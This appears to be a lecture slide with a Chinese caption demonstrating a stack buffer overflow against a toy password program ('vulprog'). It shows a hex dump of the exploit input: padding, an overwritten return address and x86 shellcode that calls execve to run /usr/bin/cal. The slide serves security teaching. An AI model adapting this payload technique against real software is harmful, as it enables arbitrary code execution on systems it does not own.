

# ./vulprog < exploit.bin
通过下面的二进制输入，这个密码程序能够被用来执行任意的代码:

000  31 32 33 34 35 36 37 38-39 30 31 32 33 34 35 36 "1234567890123456"
010  37 38 39 30 31 32 33 34-35 36 37 38 E0 F9 FF BF "789012345678a· +"
020  31 C0 A3 FF F9 FF BF B0-0B BB 03 FA FF BF B9 FB "1+ú · +¦+· +¦v"
030  F9 FF BF 8B 15 FF F9 FF-BF CD 80 FF F9 FF BF 31 "· +ï§ · +-Ç · +1"
040  31 31 31 2F 75 73 72 2F-62 69 6E 2F 63 61 6C 0A "111/usr/bin/cal “

36